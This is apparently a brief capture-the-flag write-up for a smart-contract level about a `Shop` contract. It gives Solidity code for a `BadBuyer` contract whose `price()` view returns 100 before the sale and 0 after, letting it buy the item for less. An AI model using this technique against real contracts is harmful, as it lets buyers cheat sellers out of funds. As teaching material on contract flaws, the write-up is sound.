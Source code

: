 ### Goals

Set the `Shop::price` to be less then 100.

### Exploit

We can use manipulate the view function so it will return different value for `Shop::isSold()`.

### Code

Deploy contract in Remix

```code
contract BadBuyer {
    Shop shop;
    constructor(Shop _shop) {
      shop = _shop;
    }
    function price() external view returns(uint256) {
      if(!shop.isSold()) {
        return 100;
      } else {
        return 0;
      }
    }

    function buy() external {
      shop.buy();
    }
}
```

Then call `BadBuyer::buy()`

Done!
